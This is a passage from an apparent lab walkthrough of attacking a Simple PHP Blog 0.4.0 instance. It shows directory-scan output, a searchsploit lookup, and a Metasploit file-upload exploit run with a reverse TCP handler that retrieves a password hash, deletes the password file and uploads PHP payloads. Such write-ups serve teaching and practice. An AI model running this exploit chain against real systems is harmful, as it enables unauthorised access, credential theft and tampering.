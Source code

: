 ```
[13:59:32] 200 -    6KB - /blog/login/
[13:59:32] 200 -    6KB - /blog/login.php
[13:59:32] 200 -    6KB - /blog/login
[13:59:32] 200 -    6KB - /blog/login/admin/
[13:59:33] 200 -    6KB - /blog/login/administrator/
[13:59:33] 200 -    6KB - /blog/login/cpanel.js
[13:59:33] 200 -    6KB - /blog/login/cpanel/
[13:59:33] 200 -    6KB - /blog/login/index
[13:59:33] 200 -    6KB - /blog/login/admin/admin.asp
[13:59:33] 200 -    6KB - /blog/login/cpanel.asp
[13:59:33] 200 -    6KB - /blog/login/cpanel.jsp
[13:59:33] 200 -    6KB - /blog/login/oauth/
[13:59:33] 200 -    6KB - /blog/login/cpanel.php
[13:59:33] 200 -    6KB - /blog/login/cpanel.html
[13:59:33] 200 -    6KB - /blog/login/cpanel.htm
[13:59:33] 200 -    6KB - /blog/login/super
[13:59:33] 302 -    0B  - /blog/logout  ->  http://192.168.221.224/blog/index.php
[13:59:33] 302 -    0B  - /blog/logout.php  ->  http://192.168.221.224/blog/index.php
[13:59:33] 302 -    0B  - /blog/logout/  ->  http://192.168.221.224/blog/index.php
[13:59:39] 301 -  325B  - /blog/scripts  ->  http://192.168.221.224/blog/scripts/
[13:59:39] 200 -    6KB - /blog/scripts/
[13:59:39] 200 -    1KB - /blog/rss.php
[13:59:39] 200 -    1KB - /blog/rss
[13:59:39] 302 -    0B  - /blog/setup  ->  http://192.168.221.224/blog/index.php
[13:59:39] 302 -    0B  - /blog/setup.php  ->  http://192.168.221.224/blog/index.php
[13:59:39] 302 -    0B  - /blog/setup/  ->  http://192.168.221.224/blog/index.php
[13:59:40] 302 -    0B  - /blog/static.php  ->  http://192.168.221.224/blog/index.php
[13:59:40] 302 -    0B  - /blog/static  ->  http://192.168.221.224/blog/index.php
[13:59:40] 302 -    0B  - /blog/static/dump.sql  ->  http://192.168.221.224/blog/static.php/index.php
[13:59:40] 200 -    5KB - /blog/search
[13:59:40] 200 -    5KB - /blog/search.php
[13:59:41] 301 -  324B  - /blog/themes  ->  http://192.168.221.224/blog/themes/
[13:59:41] 200 -    1KB - /blog/themes/
[13:59:41] 200 -    5KB - /blog/stats
[13:59:41] 200 -    5KB - /blog/stats/
[13:59:41] 302 -    0B  - /blog/trackback  ->  http://192.168.221.224/blog/index.php
[13:59:41] 302 -    0B  - /blog/upgrade  ->  http://192.168.221.224/blog/index.php
[13:59:41] 302 -    0B  - /blog/upgrade.php  ->  http://192.168.221.224/blog/index.php
```

Once browsing to the website, I was able to find the version by hovering the mouse over the dependecies that it used. It gave me the version of `0.4.0`. Using searchsploit it gave me a vulnerability:

```
Simple PHP Blog 0.4.0 - Remote Command Execution (Metasploit)
```

# Exploitation #
We can start metasploit, using the command `msfconsole`. From here we can use the `unix/webapp/sphpblog_file_upload` exploit and fill in the missing options (which is `RHOSTS`). When we run the exploit, here is what it displays:
```
msf5 exploit(unix/webapp/sphpblog_file_upload) > run

[*] Started reverse TCP handler on 192.168.221.42:4444 
[+] Successfully retrieved hash: $1$9ps6WNtA$kJ7oy1byhlIk6QBhlfSS6/
[+] Successfully removed /config/password.txt
[+] Successfully created temporary account.
[+] Successfully logged in as YekxdE:9oWqbA
[-] Error retrieving cookie!
[+] Successfully Uploaded ej9LGSWhFlLpOIFwBjA9.php
[+] Successfully Uploaded CPJGAzEtG48Qmkhh8XYf.php
```